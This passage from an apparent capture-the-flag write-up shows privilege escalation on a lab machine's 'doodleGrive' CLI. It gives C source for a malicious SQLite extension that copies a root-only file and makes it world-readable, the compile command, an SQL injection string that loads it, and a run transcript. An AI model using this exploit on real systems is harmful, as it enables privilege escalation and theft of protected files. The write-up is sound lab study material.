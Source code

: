 <br>

### Privilege Escalation

This  extension will copy root.txt from root folder to tom's home folder
**exploit.c**
{% vimhl bash %}
#include <sqlite3ext.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
SQLITE_EXTENSION_INIT1
int sqlite3_extension_init(sqlite3 *db) {
  char *inputFile = "/root/root.txt";  
  char *outputFile = "/home/tom/root";
  char buffer[1024];
  ssize_t bytesRead;
  int inFd = open(inputFile, O_RDONLY);
  int outFd = open(outputFile, O_WRONLY | O_CREAT | O_APPEND, S_IRUSR | S_IWUSR);
  while ((bytesRead = read(inFd, buffer, sizeof(buffer))) > 0) {
    write(outFd, buffer, bytesRead);
  }
  close(inFd);
  close(outFd);
  chmod(outputFile, S_IRWXU | S_IRWXG | S_IRWXO);
  return SQLITE_OK;
}
{% endvimhl %}

<br>

compile the extension
{% vimhl bash %}
gcc -shared -fPIC -o C.so exploit.c
{% endvimhl %}

<br>

SQLi to load the extension.
```
"+load_extension(char(46,47,67))--;
```

<br>

Run doodleGrive and activate a user account to load the extension.
{% vimhl bash %}
doodleGrive cli beta-2.2: 
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 5
Enter username to activate account: "+load_extension(char(46,47,67))--;
Activating account for user '"+load_extension(char(46,47,67))--'...
doodleGrive cli beta-2.2: 
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 6
exiting...